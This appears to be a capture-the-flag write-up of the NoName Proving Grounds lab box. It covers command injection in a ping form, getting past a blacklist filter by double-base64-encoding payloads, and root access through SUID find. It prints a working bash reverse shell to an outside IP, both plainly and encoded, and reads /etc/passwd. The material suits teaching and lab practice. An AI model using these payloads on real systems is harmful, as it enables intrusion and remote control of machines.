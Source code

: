 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```


Easy rated Proving Grounds Play machine that covers command injection and SUID privesc. 

<!--more-->


## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures posted with no functionality
    - `superadmin.php` looks more interesting as looks like there is a ping functionality that we can play with.


![admin](\assets\images\noname-pg\2022-07-27-15-23-21.png)

![superadmin](\assets\images\noname-pg\2022-07-27-15-41-18.png)

Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](\assets\images\noname-pg\2022-07-27-15-42-17.png)

Trying command injection with `sleep` command. I tried `;` and `&` but did not work, while trying `|` worked

![](\assets\images\noname-pg\2022-07-27-15-43-36.png)

As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command resulting for a 5 second delay in the response. Now that we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked. I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

Looks like there are blacklisted characters and commands, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a base64 encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
```bash
echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`
```

![](\assets\images\noname-pg\2022-07-27-16-26-33.png)

And it worked, so I tried with a reverse shell 

```bash
bash -i >& /dev/tcp/192.168.49.210/80 0>&1
```
    
For some reason the following base64 encoded reverse shell payload still did not work:

> ```bash
> |echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash
> ``` 

Which is really weird not sure why. So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the base64 decoded payload instead of executing it with bash, and I got the following response
           
![](\assets\images\noname-pg\2022-07-27-16-48-44.png)

Looks like it is not printing the whole base64 encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked 

```bash
|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`
```

![](\assets\images\noname-pg\2022-07-27-16-46-09.png)

## Privesc


- Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](\assets\images\noname-pg\2022-07-27-16-52-16.png)

- Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](\assets\images\noname-pg\2022-07-27-16-54-22.png)

